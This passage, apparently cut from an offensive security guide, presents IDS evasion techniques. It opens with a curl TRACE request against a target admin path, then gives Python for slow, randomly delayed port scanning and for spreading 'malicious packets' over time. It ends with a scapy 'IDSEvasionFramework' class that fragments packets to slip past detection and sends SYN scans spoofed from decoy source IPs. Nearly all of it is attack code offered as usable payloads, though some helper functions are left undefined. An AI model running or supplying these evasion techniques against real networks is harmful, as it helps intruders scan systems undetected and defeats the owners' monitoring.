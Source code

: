 ```bash
curl -X TRACE http://target.com/admin
```

### Timing-Based Evasion
```python
import time
import random

def slow_scan_evasion(target_ports):
    for port in target_ports:
        # Random delay between scans
        delay = random.uniform(5, 30)
        time.sleep(delay)
        
        # Perform scan
        scan_port(target_ip, port)

def distributed_timing_attack():
    # Spread attack over time to avoid threshold detection
    for i in range(100):
        time.sleep(random.uniform(60, 300))  # 1-5 minute delays
        send_malicious_packet()
```

## Example Payloads

### 1. Multi-Vector IDS Evasion Framework
```python
#!/usr/bin/env python3
from scapy.all import *
import time
import random

class IDSEvasionFramework:
    def __init__(self, target_ip, target_port=80):
        self.target_ip = target_ip
        self.target_port = target_port
        
    def fragmentation_evasion(self, payload):
        """Use packet fragmentation to evade IDS"""
        print("Executing fragmentation evasion...")
        
        # Create base packet
        packet = IP(dst=self.target_ip)/TCP(dport=self.target_port)/payload
        
        # Fragment into small pieces
        fragments = fragment(packet, fragsize=8)
        
        # Send fragments with random delays
        for frag in fragments:
            send(frag, verbose=0)
            time.sleep(random.uniform(0.1, 0.5))
    
    def decoy_scanning(self, decoy_ips):
        """Use decoy IPs to mask real source"""
        print("Executing decoy scanning...")
        
        # Create scan packets with decoy sources
        for decoy_ip in decoy_ips:
            packet = IP(src=decoy_ip, dst=self.target_ip)/TCP(dport=self.target_port, flags="S")
            send(packet, verbose=0)
            
```
